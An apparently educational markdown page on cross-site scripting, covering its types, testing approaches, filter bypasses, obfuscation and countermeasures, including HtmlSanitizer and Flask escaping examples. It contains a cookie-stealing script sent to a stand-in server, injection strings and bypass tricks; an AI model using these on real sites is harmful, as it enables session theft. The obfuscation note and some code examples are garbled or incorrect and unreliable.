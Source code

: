 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```	
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
 Now let's pick up some server side programming languages for more `accurate ` counter measures implementations.
 ### PHP
 -----
 
 ### ASP.Net
 -----
 
 ### C#
 -----
 #### HtmlSanitizer

HtmlSanitizer is a .NET library for cleaning HTML fragments and documents from constructs that can lead to [XSS attacks](https://en.wikipedia.org/wiki/Cross-site_scripting).
It uses [AngleSharp](https://github.com/AngleSharp/AngleSharp) to parse, manipulate, and render HTML and CSS.

Because HtmlSanitizer is based on a robust HTML parser it can also shield you from deliberate or accidental
"tag poisoning" where invalid HTML in one fragment can corrupt the whole document leading to broken layout or style.

In order to facilitate different use cases, HtmlSanitizer can be customized at several levels:
   
- Configure allowed HTML tags through the property `AllowedTags`. All other tags will be stripped.
- Configure allowed HTML attributes through the property `AllowedAttributes`. All other attributes will be stripped.
- Configure allowed CSS property names through the property `AllowedCssProperties`. All other styles will be stripped.
- Configure allowed CSS [at-rules](https://developer.mozilla.org/en-US/docs/Web/CSS/At-rule) through the property `AllowedAtRules`. All other at-rules will be stripped.
- Configure allowed URI schemes through the property `AllowedSchemes`. All other URIs will be stripped.
- Configure HTML attributes that contain URIs (such as "src", "href" etc.) through the property `UriAttributes`.
- Provide a base URI that will be used to resolve relative URIs against.
- Cancelable events are raised before a tag, attribute, or style is removed.

#### Tags allowed by default
`a, abbr, acronym, address, area, article, aside, b, bdi, big, blockquote, br, button, caption, center, cite, code, col, colgroup, data, datalist, dd, del, details, dfn, dir, div, dl, dt, em, fieldset, figcaption, figure, font, footer, form, h1, h2, h3, h4, h5, h6, header, hr, i, img, input, ins, kbd, keygen, label, legend, li, main, map, mark, menu, menuitem, meter, nav, ol, optgroup, option, output, p, pre, progress, q, rp, rt, ruby, s, samp, section, select, small, span, strike, strong, sub, summary, sup, table, tbody, td, textarea, tfoot, th, thead, time, tr, tt, u, ul, var, wbr`

#### Attributes allowed by default
`abbr, accept, accept-charset, accesskey, action, align, alt, autocomplete, autosave, axis, bgcolor, border, cellpadding, cellspacing, challenge, char, charoff, charset, checked, cite, clear, color, cols, colspan, compact, contenteditable, coords, datetime, dir, disabled, draggable, dropzone, enctype, for, frame, headers, height, high, href, hreflang, hspace, ismap, keytype, label, lang, list, longdesc, low, max, maxlength, media, method, min, multiple, name, nohref, noshade, novalidate, nowrap, open, optimum, pattern, placeholder, prompt, pubdate, radiogroup, readonly, rel, required, rev, reversed, rows, rowspan, rules, scope, selected, shape, size, span, spellcheck, src, start, step, style, summary, tabindex, target, title, type, usemap, valign, value, vspace, width, wrap`

_Note:_ to prevent [classjacking](https://html5sec.org/#123) and interference with classes where the sanitized fragment is to be integrated, the `class` attribute is not in the whitelist by default. 
It can be added as follows:
```C#
var sanitizer = new HtmlSanitizer();
sanitizer.AllowedAttributes.Add("class");
var sanitized = sanitizer.Sanitize(html);
```

#### CSS properties allowed by default
`background, background-attachment, background-color, background-image, background-position, background-repeat, border, border-bottom, border-bottom-color, border-bottom-style, border-bottom-width, border-collapse, border-color, border-left, border-left-color, border-left-style, border-left-width, border-right, border-right-color, border-right-style, border-right-width, border-spacing, border-style, border-top, border-top-color, border-top-style, border-top-width, border-width, bottom, caption-side, clear, clip, color, content, counter-increment, counter-reset, cursor, direction, display, empty-cells, float, font, font-family, font-size, font-style, font-variant, font-weight, height, left, letter-spacing, line-height, list-style, list-style-image, list-style-position, list-style-type, margin, margin-bottom, margin-left, margin-right, margin-top, max-height, max-width, min-height, min-width, opacity, orphans, outline, outline-color, outline-style, outline-width, overflow, padding, padding-bottom, padding-left, padding-right, padding-top, page-break-after, page-break-before, page-break-inside, quotes, right, table-layout, text-align, text-decoration, text-indent, text-transform, top, unicode-bidi, vertical-align, visibility, white-space, widows, width, word-spacing, z-index`

#### CSS at-rules allowed by default
`namespace, style`

`style` refers to style declarations within other at-rules such as `@media`. Disallowing `@namespace` while allowing other types of at-rules can lead to errors.
Property declarations in `@font-face` and `@viewport` are not sanitized.

_Note:_ the `style` tag is disallowed by default.

#### URI schemes allowed by default
``http, https``

_Note:_ [Protocol-relative URLs](http://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL)  (e.g. <a href="//github.com">//github.com</a>) are allowed by default (as are other relative URLs).

to allow `mailto:` links: 

```C#
sanitizer.AllowedSchemes.Add("mailto");
```

#### Default attributes that contain URIs
`action, background, dynsrc, href, lowsrc, src`

#### Thread safety

The `Sanitize()` and `SanitizeDocument()` methods are thread-safe, i.e. you can use these methods on a single shared instance from different threads provided you do not simultaneously set instance or static properties. A typical use case is that you prepare an `HtmlSanitizer` instance once (i.e. set desired properties such as `AllowedTags` etc.) from a single thread, then call `Sanitize()`/`SanitizeDocument()` from multiple threads.

#### Text content not necessarily preserved as-is

Please note that as the input is parsed by AngleSharp's HTML parser and then rendered back out, you cannot expect the text content to be preserved exactly as it was input, even if no elements or attributes were removed. Examples:

- `4 < 5` becomes `4 &lt; 5`
- `<SPAN>test</p>` becomes `<span>test<p></p></span>`
- `<span title='test'>test</span>` becomes `<span title="test">test</span>`

On the other hand, although some broken HTML is fixed by the parser, the output might still contain invalid HTML. Examples:

- `<div><li>test</li></div>`
- `<ul><br><li>test</li></ul>`
- `<h3><p>test</p></h3>`

##### Usage
-----

Install the [HtmlSanitizer NuGet package](https://www.nuget.org/packages/HtmlSanitizer/). Then:

```C#
var sanitizer = new HtmlSanitizer();
var html = @"<script>alert('xss')</script><div onload=""alert('xss')"""
    + @"style=""background-color: test"">Test<img src=""test.gif"""
    + @"style=""background-image: url(javascript:alert('xss')); margin: 10px""></div>";
var sanitized = sanitizer.Sanitize(html, "http://www.example.com");
Assert.That(sanitized, Is.EqualTo(@"<div style=""background-color: test"">"
    + @"Test<img style=""margin: 10px"" src=""http://www.example.com/test.gif""></div>"));
```

There's an [online demo](http://xss.ganss.org/), plus there's also a [.NET Fiddle](https://dotnetfiddle.net/qqpiDh) you can play with.

#### Reference
[OWASP Html C# Sanitizer](https://github.com/mganss/HtmlSanitizer/edit/master/README.md)


 ### Java
 -----
 
 ### Node.JS
 -----
 
 ### Python
 -----
 
  #### Incorrect
  In this part, we will be dealing the Python [Flask library](items/flask.md).
The following is a contrived example of how a **reflected XSS** exploit may occur. If an attacker were to submit a request to `http://example.com/?name=<script>alert(1)</script>` then any user viewing that url would have the javascript executed within the context of their browser.
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % name
```
  #### Correct
The correct way to prevent XSS attacks is to validate user input and ensure that data rendered by templates is escaped. Using templates in the way they are intended is preferable:
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return render('hello.html', name=name)

# where hello.html is:
# <html>Hello {{ name }}</html>
```

Any HTML content that is generated directly within a request handler should use the appropriate escaping function:
```
from flask import escape
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % escape(name)
```
  #### Allowing certain special characters
  The issue is made more complex when we encounter situations where `we need to allow a specific set of special characters, such as the ability to post content containing HTML tags`. In this situation we can either:
  * accept only known good data, 
  * or we can deny all known bad data. 
  Both approaches have pros and cons, with the specific choice of implementation being dependent on the given application. In general however, the following should be the list of priorities:

* **Encoding** - Replace ALL control characters with known safe alternatives
* **Positive validation (whitelist)** - Only allow a specific set of values
* **Negative validation (blacklist)** - Block a specified list of dangerous values

In cases where `positive validation` is used, it should also be coupled with additional sanitization. For example, when allowing certain HTML tags, certain attributes of those tags should be removed, such as event handlers. e.g.:
```
<img src='someimage.jpg' onload='do_evil()'/>
```
Again, the preferable approach is to only `allow known safe attributes`, and sanitize the content of those attribute values. If the content is not sanitized, the following vulnerable code could occur:
```
function add_image(link) {
  document.write('<img src="' + link + '"'></img>'');
}
```
If the preceding JavaScript function is called with the link parameter containing the following value, the function can be exploited to execute arbitrary code:
```
x" onerror="do_evil()
```
A more secure implementation of the above would be:
```
function add_image(link) {
  clean = link.replace(/"/g, '&quot;');
  document.write('<img src="' + clean + '"'></img>'');
}
Note, this is a very specific example for illustration. A more comprehensive approach to sanitization should be taken for larger applications.
```
[Here](items/activates.md) is properly enough written library to help defend against XSS injections.
